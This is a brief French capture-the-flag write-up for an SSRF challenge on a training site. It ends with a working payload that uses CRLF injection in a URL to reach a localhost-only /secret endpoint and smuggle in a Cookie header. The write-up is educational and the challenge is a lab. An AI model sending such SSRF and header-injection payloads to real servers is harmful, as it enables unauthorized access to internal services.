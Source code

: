
## SSRF 

Dans ce challenge on arrive sur une page qui nous demande de récupérer un flag en nous rendant sur 

```URL
https://ssrf1.secu-web.blackfoot.dev/secret
```


```
{
ok: false,
message: "You have to come from 127.0.0.1 not 172.21.0.8 :)",
flag: ""
}
```

Bien sûr on obtient cette réponse. On va donc essayer de trouver un moyen de détourner cette vérification côté serveur.

Du coup on va utiliser le formulaire pour faire une requête sur le port 80 de notre serveur.

Premier payloads qui n'a pas fonctionné

```URL
127.0.0.1/secret
```
=> 404 page not found. Celà est surement dû au fait que le server rajoute le port 80
 
Après plusieurs jours de tentative et de recherche nous avons réussi à construire le payload

``URL
127.0.0.1/secret%3F%20HTTP/1.1%0D%0ACookie:%20GOSESSION=guest-go1.11.5
```
